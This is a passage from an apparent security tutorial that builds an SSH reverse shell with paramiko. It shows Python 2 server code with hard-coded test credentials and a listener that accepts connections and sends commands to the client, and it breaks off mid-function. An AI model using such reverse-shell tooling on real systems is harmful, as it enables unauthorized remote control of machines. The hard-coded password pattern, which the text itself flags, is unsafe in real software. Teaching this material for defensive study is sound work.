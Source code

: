 
As a note, this script is based in some of the [paramiko demos](https://github.com/paramiko/paramiko/blob/master/demo) and we specifically use the key from their demo files ([download here](https://github.com/paramiko/paramiko/blob/master/demos/test_rsa.key)).


### The SSH Server

In our server script, we first create a class **Server** that issues a new thread event, checking whether the session is valid, and performing authentication. Notice that for simplicity we are hard-coding the values for username, password and host key, which is never a good practice:

```python
HOST_KEY = paramiko.RSAKey(filename='test_rsa.key')
USERNAME = 'buffy'
PASSWORD = 'killvampires'

class Server(paramiko.ServerInterface):
    def __init__(self):
        self.event = threading.Event()
    def check_channel_request(self, kind, chanid):
        if kind == 'session':
            return paramiko.OPEN_SUCCEEDED
        return paramiko.OPEN_FAILED_ADMINISTRATIVELY_PROHIBITED
    def check_auth_password(self, username, password):
        if (username == USERNAME) and (password == PASSWORD):
            return paramiko.AUTH_SUCCESSFUL
        return paramiko.AUTH_FAILED
```

Now, let's take a look at the **main** function, which does the following:

1. Creates a socket object to bind the host and port, so it can listen for incoming connections.
2. Once a connection is established (the client tried to connect to the server and the socket accepted the connection), it creates a **paramiko** [Transport](http://docs.paramiko.org/en/1.15/api/transport.html) object for this socket. In paramiko there are two main communication methods: *Transport*, which makes and maintains the encrypted connection, and *Channel*, which is like a socket for sending/receiving data over the encrypted session (the other three are Client, Message, and Packetizer).
3. The program instantiates a **Server** object and starts the paramiko session with it.
4. Authentication is attempted. If it is successful, we get a **ClientConnected** message.
5. The server starts a loop where it will keep getting input commands from the user and issuing it in the client. This is our reversed shell!

```python
import paramiko
import getopt
import threading
import sys
import socket

def main():
    if not len(sys.argv[1:]):
        print "Usage: ssh_server.py <SERVER>  <PORT>"
        sys.exit(0)

    # creating a socket object
    server = sys.argv[1]
    ssh_port = int(sys.argv[2])
    try:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        sock.bind((server, ssh_port))
        sock.listen(100)
        print "[+] Listening for connection ..."
        client, addr = sock.accept()
    except Exception, e:
```
